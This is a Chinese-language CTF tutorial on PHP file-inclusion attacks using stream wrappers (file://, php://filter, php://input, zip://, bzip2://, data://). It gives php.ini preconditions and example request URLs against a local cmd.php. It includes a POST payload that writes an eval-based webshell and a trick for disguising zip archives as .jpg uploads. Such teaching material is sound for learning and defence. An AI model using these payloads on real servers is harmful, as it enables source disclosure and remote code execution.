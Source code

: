 ![img](https://image.3001.net/images/20170925/15063209941952.png)

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，==php://filter用于读取源码，php://input用于执行php代码。==

###### 【file://协议】

PHP.ini：

file:// 协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响

使用方法：

file:// [文件的绝对路径和文件名]

> htp://127.0.0.1/cmd.php?file=file://D:/soft/phpStudy/WWW/phpcode.txt

###### php://filter

读取源代码并进行base64编码输出，不然会直接当做php代码执行就看不到源代码内容了。

PHP.ini：

php://filter在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

>
htp://127.0.0.1/cmd.php?file=php://filter/read=convert.base64-encode/resource=./cmd.php

###### php://input

 可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。

**PHP.ini：**

allow_url_fopen ：off/on

allow_url_include：on

```
http://127.0.0.1/cmd.php?file=php://input

[POST DATA] <?php phpinfo()?>

也可以POST如下内容生成一句话： 
<?php fputs(fopen("shell.php","w"),'<?php eval($_POST["cmd"];?>');?>
```

###### **【zip://协议】**

**PHP.ini：**

zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；

allow_url_fopen ：off/on

allow_url_include：off/on

==zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。==



```
使用方法：
zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

http://127.0.0.1/cmd.php?file=zip://D:/soft/phpStudy/WWW/file.jpg%23phpcode.txt
```

先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩,压缩文件名为file.zip,如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后在上传，其他几种压缩格式也可以这样操作。

由于#在get请求中会将后面的参数忽略所以使用get请求时候应进行url编码为%23，且此处经过测试相对路径是不可行，所以只能用绝对路径。

###### **【bzip2://协议】【zlib://协议】**

**使用方法：**

compress.bzip2://file.bz2

```
http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg
```

compress.zlib://file.gz（同理）

###### **【data://协议】**

经过测试官方文档上存在一处问题，经过测试PHP版本5.2，5.3，5.5，7.0；data:// 协议是是受限于allow_url_fopen的，官方文档上给出的是NO，所以要使用data://协议需要满足双on条件

**PHP.ini：**

data://协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on

```
http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

or

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

也可以：

http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>

or

http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

